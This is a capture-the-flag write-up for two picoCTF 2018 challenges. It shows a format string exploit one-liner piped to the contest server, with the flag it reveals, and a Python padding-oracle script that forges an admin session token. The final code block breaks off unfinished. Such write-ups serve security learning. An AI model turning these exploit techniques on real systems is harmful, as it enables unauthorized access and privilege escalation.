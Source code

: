 ## authenticate
`authenticate` was a simple format string exploit. We modify a variable in memory to grant us access to the flag, easy!

```
$ perl -e 'print "\x4c\xa0\x04\x08" . "%p"x10 . "%n" . "\n"' | nc 2018shell1.picoctf.com 27114
Would you like to read the flag? (yes/no)
Received Unknown Input:

L�0x80489a60xf77215a00x804875a0xf77580000xf77589180xffabcfe00xffabd0d4(nil)0xffabd0740x42b
Access Granted.
picoCTF{y0u_4r3_n0w_aUtH3nt1c4t3d_742b49a4}
```

## magic_padding_oracle

```python
#!/usr/bin/python2

from pwn import *

import cryptanalib as ca
import requests
import string
import sys

charset = '-{}:\'\", _' + string.lowercase + string.digits + '\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'

def padding_oracle(ciphertext):
   while True:
      try:
         r = remote('2018shell1.picoctf.com', 45008, level='error', timeout=8)
         #print ciphertext.encode('hex')

         r.sendline(ciphertext.encode('hex'))
         msg = r.recvall()
         if 'invalid padding' in msg:
            return False
         else:
            print '[+] {}'.format(ciphertext.encode('hex'))
            return True
      except pwnlib.exception.PwnlibException:
         print '[+] Exception'
         continue

ciphertext = '42fef6c675ee50fca505d4023e8c21bd0b409a1f864eec9dad32e86199b518330ab686ba7afaf345e4b2bdca541146511d82c37e7f991be60eda932d1fd407c65ab1726c337c128163c4c3449ce2398d'

plaintext = '{"username": "braeden", "expires": "2018-11-01", "is_admin": "true"}'

new_ciphertext = ca.cbcr(plaintext, oracle=padding_oracle, is_padding_oracle=True, block_size=16, verbose=True)
print new_ciphertext
print new_ciphertext.encode('hex')

#ca.padding_oracle_decrypt(padding_oracle=padding_oracle, ciphertext=ciphertext.decode('hex'), block_size=16, padding_type='pkcs7', iv='5468697320697320616e204956343536'.decode('hex'), verbose=True, hollywood=False, charset=charset)

'''
$ python feather.py
{"username": "guest", "expires": "2000-01-07", "is_admin": "false"}
```